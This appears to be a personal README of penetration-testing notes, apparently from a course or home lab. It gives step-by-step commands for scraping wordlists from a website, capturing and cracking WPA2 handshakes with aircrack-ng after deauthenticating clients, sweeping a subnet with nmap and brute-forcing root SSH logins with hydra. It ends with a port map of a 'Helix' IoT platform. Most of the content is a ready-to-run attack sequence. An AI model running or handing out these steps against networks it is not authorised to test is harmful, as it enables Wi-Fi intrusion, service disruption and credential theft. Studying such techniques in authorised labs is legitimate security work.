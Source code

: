 ## Wordlist Crawler 

- sudo apt install cewl

- `cewl -d 1 -m 8 -w wordlist-d1m8-samecase.txt https://avengers.marvelhq.com/`
- `cewl -d 1 -m 8 -w wordlist-d1m8-lowercase.txt https://avengers.marvelhq.com/ --lowercase` 
- `cewl -d 2 -m 8 -w wordlist-d2m8-lowercase.txt https://avengers.marvelhq.com/ --lowercase` 
- `cewl -d 1 -m 1 -w wordlist-d1m1-lowercase.txt https://avengers.marvelhq.com/ --lowercase` 
- `cewl -d 1 -m 1 -w wordlist-d1m1-samecase.txt https://avengers.marvelhq.com/`
- `cewl -d 2 -m 1 -w wordlistd2m1-d2m1-lowercase.txt https://avengers.marvelhq.com/ --lowercase`

```sh
curl "https://avengers.marvelhq.com/" | sed 's/[^a-zA-Z ]/ /g' | tr 'A-Z ' 'a-z\n' | grep '[a-z]' | sort -u > wordlist.txt
``` 

## WPA2 Brute Force 

- The shortest password allowed with WPA2 is 8 characters long
- sudo su 
- echo <password> | sudo -S <command>

### Start and Check Wifi Adapter Monitor Mode

- iwconfig

- airmon-ng check kill
- airmon-ng
- airmon-ng start wlan0

### Attack 1 (Moodle)

1. airmon-ng

2. macchanger --mac 00:11:22:33:44:55 wlan0

3. macchanger -s wlan0  (60:a4:b7:22:74:9f)

4. airmon-ng start wlan0

5. airodump-ng wlan0

to retrieve bssid mac and chanel

6. airodump-ng -c 1 -w file --bssid 48:29:52:46:92:CB wlan0

7. aireplay-ng --deauth 1 -a 48:29:52:46:92:CB -c 60:a4:b7:22:74:9f wlan0

8. aircrack-ng -w wordlist.txt file-01.cap


### Discover information about router

To retrieve MAC ADDRESS, CHANNEL and ESSID use:

- sudo airodump-ng wlan0
    - MA => 48:29:52:46:92:CB
    - CH => 1
    - ESSID => Casa_wifi

### Attack 2

1. To check station connected to the router:

- sudo airodump-ng -c 1 wlan0 -d 48:29:52:46:92:CB 
    -  Specify the channel to use aireplay correctly

2. Run this analyzes packets before deauth everyone to writes handshake to a file:

- sudo airodump-ng -w hacktest -c 1 --bssid 48:29:52:46:92:CB wlan0

3. To forces deauth everyone:

- sudo aireplay-ng --deauth 0 -a 48:29:52:46:92:CB wlan0

4. Uses the hack01-01.cap to analyze in wireshark: search for ***eapol** which is the handshake protocol used to auth

5. Check for the second message of the handshake in:
    - 802.1X authentication
    - WPA KEY DATA: 30140100000fac040100000fac040100000fac020c00
    - the handshake packets is needed to step 6 can try a bunch of random passwords...

- :warning: we can skip the step 4 e 5 above and just try the step 6 and with lucky it works :warning: 

6. sudo aircrack-ng hack-01.cap -w wordlist.txt
    - and the outputs should appear !!!
    - sudo aircrack-ng hack01-01.cap -w /usr/share/wordlists/rockyou.txt

## SSH Brute Force

- systemctl start ssh.socket
- systemctl stop ssh.socket

- sudo airmon-ng stop wlan0
- sudo service NetworkManager restart
- iwconfig

- ifconfig
- sudo nmap -sP 192.168.15.0/24
- sudo nmap -sP 192.168.15.0/24 -p 80,22

----- 
- sudo nmap 192.168.0.* -p ssh --open


- sudo nmap 192.168.15.* --open
-----

- ssh user@ipaddress

- hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.15.1 -t 4 ssh

- hydra -L /usr/share/wordlists.rockyou.txt -P /usr/share/wordlists/rockyou.txt -M Documents/ip.txt -t 4 ssh

-L list of users
-M list of ips

### Helix Fingerprint

```
Port         Transport             Protocol 

22              TCP            SSH 
5000            TCP            Helix Web Interface
3030            TCP            Helix Orchestrator
22443           TCP            Helix Hardware Monitor
1026            TCP            CEF Context Broker 
27000           TCP            MongoDB 
5050            TCP            Cygnus
1883            TCP            Eclipse-Mosquitto
4041            TCP            IoT Agent MQTT 
```